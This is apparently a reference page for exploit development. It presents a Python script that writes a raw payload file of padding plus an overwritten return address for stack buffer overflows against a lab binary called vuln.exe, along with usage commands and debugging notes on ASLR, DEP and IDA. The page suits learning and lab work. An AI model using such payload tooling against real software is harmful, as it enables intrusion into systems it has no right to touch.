 # PoC — Input blob builder 

This page documents a small **blob builder** script that creates a raw `payload.bin` file you can use to feed input to vulnerable programs (for example: `vuln.exe < payload.bin` or `type payload.bin | vuln.exe`). It's meant as a simple reference and a starting point for exploit development / debugging workflows.


---

# Overview

The supplied script builds a raw binary file composed of:

* `padding_len` bytes of padding (to reach the saved return address on the stack),
* followed by an 8-byte return address split into two 32-bit words (little-endian ordering used by x86/x64 on Windows).

For a 32-bit target you would only need a single 4-byte little-endian return address; for a 64-bit target you typically write the low dword first, then the high dword (or use a single 8-byte `<Q` pack).

---

# Script


* accepts `--offset` (padding length),
* accepts either a single 64-bit address or a pair of 32-bit parts,
* chooses packing automatically depending on `--bits` (32 vs 64),
* writes `payload.bin` and prints what it wrote.

```python

import struct
import argparse

parser = argparse.ArgumentParser(description="Build a raw payload.bin for basic stack overwrites")
parser.add_argument('--offset', type=int, default=0x58, help='padding length (bytes)')
parser.add_argument('--pad', type=str, default='A', help='padding byte (single character)')
parser.add_argument('--bits', type=int, choices=[32, 64], default=64, help='target architecture bits')
parser.add_argument('--addr', type=lambda x: int(x,0), help='target address as 0x... (use for full 64-bit)')
parser.add_argument('--addr-low', type=lambda x: int(x,0), help='lower 32-bit dword (0x...)')
parser.add_argument('--addr-high', type=lambda x: int(x,0), help='upper 32-bit dword (0x...)')
parser.add_argument('--out', type=str, default='payload.bin', help='output filename')
args = parser.parse_args()

padding_len = args.offset
padding_byte = args.pad.encode()[:1]

if args.bits == 32:
    if args.addr is None and args.addr_low is None:
        raise SystemExit('Provide --addr or --addr-low for 32-bit targets')
    addr = args.addr if args.addr is not None else args.addr_low
    payload = padding_byte * padding_len + struct.pack('<I', addr & 0xFFFFFFFF)
else:
    # 64-bit
    if args.addr is not None:
        payload = padding_byte * padding_len + struct.pack('<Q', args.addr & 0xFFFFFFFFFFFFFFFF)
    elif args.addr_low is not None and args.addr_high is not None:
        # pack low dword first (little-endian 64-bit representation)
        payload = padding_byte * padding_len + struct.pack('<I', args.addr_low & 0xFFFFFFFF) + struct.pack('<I', args.addr_high & 0xFFFFFFFF)
    else:
        raise SystemExit('Provide --addr (64-bit) or both --addr-low and --addr-high')

with open(args.out, 'wb') as f:
    f.write(payload)

print(f'Wrote {args.out} ({len(payload)} bytes)')
```


**Examples:**

* 64-bit single address:

```cmd
python payloadBuilder.py --offset 88 --bits 64 --addr 0x7ff7c69f2040 --out payload.bin
```

* 64-bit split dwords (low then high):

```cmd
python payloadBuilder.py --offset 88 --bits 64 --addr-low 0xC69F2040 --addr-high 0x00007FF7 --out payload.bin
```

* 32-bit address:

```cmd
python payloadBuilder.py --offset 72 --bits 32 --addr 0x401020 --out payload.bin
```


---

# How to use the payload file


```cmd
type payload.bin | vuln.exe
vuln.exe < payload.bin
```


---

# Important notes & troubleshooting

* **Endianness:** x86/x86\_64 on Windows are little-endian. When writing a 64-bit address as two 32-bit values, write the *lower* dword first, then the *upper* dword, as shown in the original script.

* **Null bytes:** raw payload files can contain `0x00` bytes. If the target program reads raw bytes via `read`, `recv`, `fgets` into a buffer, null bytes are fine. If the program uses C-string APIs that stop at `\0` or performs `strlen` on the input, a `0x00` inside the padding or address can truncate the string — be aware of that when designing payloads.

* **ReadConsole vs redirected stdin:** some programs use `ReadConsole` / console APIs and ignore redirected stdin. If `vuln.exe < payload.bin` doesn’t feed your input, try one of the following:

  * Launch the program externally with the redirection and then attach IDA (`Attach to process`) before the vulnerable code executes.
  * Use a debugger that provides console input (x64dbg) or create a launcher that creates a pseudo-console (ConPTY / winpty).

* **ASLR / Module base:** if your target address comes from a module that is ASLR-enabled, the address will change each run. Use technique to find a non-ASLR module or leak the base at runtime, or use ROP gadgets in non-ASLR modules.

* **DEP / NX / Mitigations:** modern systems often have DEP, ASLR, SafeSEH, /GS protections. Overwriting the return address may not be enough in protected environments. Make sure to understand the target binary protections before relying on a simple ret overwrite.

* **Debugging tips in IDA:** IDA’s Debugger → Process options may accept an input file for stdin. Alternatively, set the application to run `cmd.exe /c "vuln.exe < payload.bin"` and attach to the child process, or start the target externally and attach.

---

# Quick checklist before testing

1. Confirm target bitness (32 vs 64). Use `file`, `dumpbin /headers`, or your disassembler.
2. Confirm the overflow offset (`padding_len`). You can compute it with pattern/generation tools (e.g., Metasploit pattern\_create / pattern\_offset) or by incremental testing.
3. Confirm the exact return address (rebased address in IDA or the runtime base + function offset).
4. Generate the `payload.bin` and run with `vuln.exe < payload.bin` or `type payload.bin | vuln.exe`.
